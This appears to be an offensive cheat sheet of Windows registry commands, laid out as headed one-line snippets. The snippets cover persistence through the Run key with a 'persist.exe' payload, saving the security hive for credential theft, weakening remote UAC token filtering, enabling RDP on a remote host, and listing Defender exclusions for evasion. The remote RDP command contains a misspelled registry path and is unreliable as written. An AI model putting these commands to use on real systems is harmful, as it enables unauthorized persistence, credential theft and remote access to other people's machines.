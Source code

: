 ### add registry entry
```
reg add <path> /v <value> /t <type> /d <pathToFile>
```

### delete registry entry 
```
reg delete "<path>" /v <value> /f
```

### add example (REG_SZ UTF-16 LE string)
```
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v someRegistry /t REG_SZ /d "C:\Users\username\persist.exe"
```

### delete example
```
reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v someRegistry /f
```

### get information about registry key
```
reg query "<path>"
```

### write security hive to file
```
reg save hklm\security <file>
```


### re-enable command prompt
```
reg add HKCU\Software\Policies\Microsoft\Windows\System /v DisableCMD /t REG_DWORD /d 0 /f
```

### disable remote user account control (UAC) local account token filter policy
```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

### enable remotely RDP
```
reg add "\\<rhost>\HKLM\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

### read configured Windows defender exclusions
```
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions" /s
```

